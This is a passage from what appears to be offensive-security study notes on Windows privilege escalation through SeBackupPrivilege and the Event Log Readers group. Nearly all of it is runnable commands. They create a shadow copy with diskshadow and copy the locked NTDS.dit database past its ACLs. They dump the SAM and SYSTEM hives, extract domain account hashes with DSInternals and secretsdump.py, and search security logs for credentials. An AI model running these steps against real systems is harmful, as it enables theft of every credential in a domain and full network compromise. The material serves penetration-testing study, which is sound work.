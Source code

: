 Check if enabled (`whoami /priv` or `Get-SeBackupPrivilege`). If it is disabled, we can enabled it with `Set-SeBackupPrivilege`. This privilege can now be leveraged to copy any protected file. This group also permits logging in locally to a domain controller. The active directory database **NTDS.dit** is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. As the **NTDS.dit** file is locked by default, we can use the Windows diskshadow utility to create a shadow copy of the **C** drive and expose it as **E** drive:
```console
PS C:\zeropio> diskshadow.exe
PS C:\zeropio> dir E:
```

Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally:
```console
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

The privilege also lets us back up the SAM and SYSTEM registry hives (we can extract local account credentials offline using a tool such as Impacket's **secretsdump.py**):
```console
C:\zeropio> reg save HKLM\SYSTEM SYSTEM.SAV 
C:\zeropio> reg save HKLM\SAM SAM.SAV
```

Now we can use PowerShell **DSInternals** to extract the credentials. For example, extracting the *administrator* credentials:
```console
PS C:\zeropio> Import-Module .\DSInternals.psd1
PS C:\zeropio> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\zeropio> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=<DOMAIN>,DC=local' -DBPath .\ntds.dit -BootKey $key
```

Also, we can use **secretsdump.py**:
```console
zero@pio$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

And then crack the hashes with hashcat.

Another useful tool is [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy).
```console
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This eliminates the need for any external tools.

## Event Log Readers 

Administrators or members of the Event Log Readers group have permission to access this log. We can see the users in this group:
```console
C:\zeropio> net localgroup "Event Log Readers"
```

We can query Windows events from the command line using the `wevtutil` utility and the `Get-WinEvent` PowerShell cmdlet:
```console
PS C:\zeropio> wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

